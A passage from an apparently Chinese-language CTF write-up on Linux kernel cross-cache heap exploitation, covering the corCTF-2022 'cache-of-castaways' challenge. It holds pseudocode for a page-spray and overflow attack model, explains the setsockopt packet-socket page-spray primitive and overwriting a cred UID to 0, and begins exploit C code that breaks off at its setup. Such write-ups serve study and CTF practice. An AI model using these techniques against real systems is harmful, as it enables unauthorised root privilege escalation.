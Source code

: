 在没有任何噪声的情况下，我们可以设想如下攻击模型

```python
for x in range(0x200):
    alloc_page()  # 用尽 low-order pages
for x in range(1, 0x200, 2):
    free_page(x)  # 释放奇数页，确保不会形成 buddies 从而合并到 high-order
spray_victim_obj()  # 堆喷 victim obj
for x in range(0, 0x200, 2):
    free_page(x)  # 释放偶数页，同上
spray_vulnerable_obj()  # 堆喷 vuln obj
overflow_vulnerable_obj()  # 堆溢出，自然会有位于 `vuln slub` 末尾的 obj 溢出到位于 `victim slub` 头的 obj
```

然而，假设有噪声，i.e. 内核自己的结构体拿了我们刚释放的页，或是又多了新的页放入到 low-order area 中，亦或是因为 slub alias 导致 `victim slub` 头不再是 victim obj。我们的攻击就有可能失败。



## corCTF-2022 cache-of-castaways

这大概是少有的 cross cache 的 CTF 题目。对于实战，你可以参阅 [CVE-2022-29582 - Computer security and related topics](https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/) [CVE-2022-27666: Exploit esp6 modules in Linux kernel - ETenal](https://etenal.me/archives/1825) 或是 [Project Zero: Exploiting the Linux kernel via packet sockets](https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html)

题目附件可以在这里下载：[corCTF-2022-public-challenge-archive/pwn/cache-of-castaways at master · Crusaders-of-Rust/corCTF-2022-public-challenge-archive](https://github.com/Crusaders-of-Rust/corCTF-2022-public-challenge-archive/tree/master/pwn/cache-of-castaways)



题目本身非常简单，提供了 add 和 edit 的功能，存在 6bytes 的溢出。其中，这个溢出的 cache 是 SLAB_ACCOUNT 标志位的，因此它占用一个独立的 slub。

![image-20241106160439301](https://oss.nova.gal/img/image-20241106160439301.png)

而溢出 6bytes，显然也支持我们将 cred 的 UID 写为 0。恰巧 cred_jar 显然也在 ACCOUNT 的独立 slub 里，因此我们其实能够排除一部分噪声。



那么接下来，我们就顺着理想情况一步一步来分析即可。首先是 `alloc_page`，在 `CVE-2017-7308` 中 project zero 提出了一个非常优雅的页喷射原语：`setsockopt()`。

>[Project Zero: Exploiting the Linux kernel via packet sockets](https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html)

在设置完成后，它会调用 `alloc_pg_vec()`，在这个函数里，它会分配 `tp_block_nr` 次 `2^order` 个页面（其中 order 是由 `tp_block_size` 决定的），而在关闭 fd 后，这些页面也会被释放。只不过低权限用户在 root namespaces 下没有办法调用这个函数，必须要换一个命名空间，此时，我们可以使用 pipe 进行通信。

```c
#include "kernel.h"

#define INITIAL_PAGE_SPRAY 1000
#define CRED_JAR_SPARY 512
#define SIZE 0x1000
#define PAGENUM 1

int sprayfd_child[2], sprayfd_parent[2];
int socketfds[INITIAL_PAGE_SPRAY];

enum spraypage_cmd {
    ALLOC,
    FREE,
    QUIT
};

struct ipc_req_t {
    enum spraypage_cmd cmd;
    int idx;
};
```